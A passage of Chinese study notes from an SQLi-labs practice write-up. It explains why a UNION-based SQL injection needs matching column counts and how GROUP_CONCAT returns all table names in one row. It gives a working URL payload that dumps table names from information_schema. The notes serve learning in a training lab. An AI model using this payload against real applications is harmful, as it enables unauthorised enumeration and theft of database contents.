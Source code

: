 
这个语句的目的是将 SELECT `*` FROM user WHERE id='-1' 的结果与SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='demosql'的结果合并在一起。

  

因为SELECT `*` FROM user选择了3个列（该user表中有3个列），所以UNION SELECT也需要选择3个值，以便结果的列数相同。

  

<hr>

  

但是也不是不能把 3 写在后面，但是不是 最后面：

  

- `SELECT * FROM user WHERE id='-1' UNION SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables WHERE table_schema='demosql' -- ;`

  

payload version:

  

- `?id=-1' UNION SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables WHERE table_schema='demosql' --+`

  


![](../post_pre/pics/SQLi-labs/concat3.png)
  
  

### 多输出？

  

前面提到即使注释掉了 LIMIT 0, 1 也还有一个if条件语句进行输出限制，为什么这里多个表名就能一起输出了？（有这个疑问一方面是我和那个if斗争太久，一方面是没怎么去看group_concat的作用。）

  

原因 is：

>当使用GROUP_CONCAT(table_name)来获取所有的表名时，所有的表名都会被连接成一个长字符串，然后作为一条记录返回。

  
  

<hr>

  